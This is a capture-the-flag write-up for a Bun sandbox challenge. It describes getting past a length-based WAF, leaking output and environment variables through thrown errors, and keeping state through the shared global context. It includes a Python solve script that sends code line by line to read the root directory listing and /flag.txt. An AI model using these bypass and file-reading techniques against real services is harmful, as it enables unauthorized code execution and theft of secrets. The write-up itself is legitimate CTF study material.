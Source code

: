 ```yaml
---
created: 2024-07-27T20:24
updated: 2024-07-28T02:15
tags:
  - bun
---
```


> I’ve created a super secure sinkless buntime, is it really secure?

## Analysis

### Bypass WAF

I tried using `Bun.file` etc to spawn shells but always encounter this weird error.

`WAF: Output Not allowed` or `WAF: Input Not allowed`.

I am not sure what caused them as they block innocent stuff but let others pass.

```js
/*eval*/
throw new Error(JSON.stringify(Bun.env))
// this fails

/*eval*/
// this runs

throw new Error(JSON.stringify(Bun.env))
// this runs

eval("1+1")
// this also runs
```

Eventually I realized that it worked on length, if input or output is longer than a set amount it will fail.

For input, I found it via comments.

```js
///////////////////////////////////////////////////    <- will fail
//////////////////////////////////////////////////     <- will work
```

For output, we can use `throw new Error(str)` to bypass the output restriction.

### Persistence

When trying to prototype pollute the server, I realized that my prototype pollutions are preserved.

This means that I am running code in the same context, that's good as I can store info in `global`. And don't have to somehow compress everything in one payload.
### Sync / Async

For some reason, await just wouldn't work at all.
So I decided to ditch Bun's functions and use node.js defaults. The `fs` module.

## Solve Script

IDK if the async import will cause the next lines to break, but since their effects persist, you can just run the script twice.

```python
import requests


def string_to_hex(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)


payload = """
///////////////////////////////////////////////////
import("fs").then(fs=>global.fs=fs)
throw new Error(global.fs.readdirSync("/"))
global.flag=global.fs.readFileSync("/flag.txt")
throw new Error(global.flag)
""".strip()

print(payload)
print()
for l in payload.splitlines():
    r = requests.post("https://8dd1742bbfecae1ec5685380.deadsec.quest/run", json={"code": l})
    print(r.text)

"""
bun 1.1.20 (later than latest version but not related to the challenge)
"""
```

```flag
DEAD{BunT1m3_Fun_T1m3_Y0u_C4n_4lw4y$_Run_4$ync_1n$1d3_$ync}
```
